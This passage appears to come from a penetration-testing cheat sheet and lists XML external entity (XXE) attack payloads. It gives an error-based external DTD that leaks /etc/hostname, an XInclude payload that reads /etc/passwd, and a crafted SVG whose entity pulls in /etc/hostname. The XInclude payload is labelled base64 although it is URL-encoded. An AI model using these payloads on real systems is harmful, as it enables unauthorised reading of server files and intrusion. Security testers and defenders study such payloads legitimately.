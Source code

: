     - poc.dtd (read contents via error):

      ```xml
      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
      %eval;
      %error;
      ```

  - XInclude (b64-encoded payload because it contains non-printable characters):

    ```base64
    %3cfoo%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%0d%0a%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2ffoo%3e
    ```

  - svg file:

    ```xml
    <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
    ```















 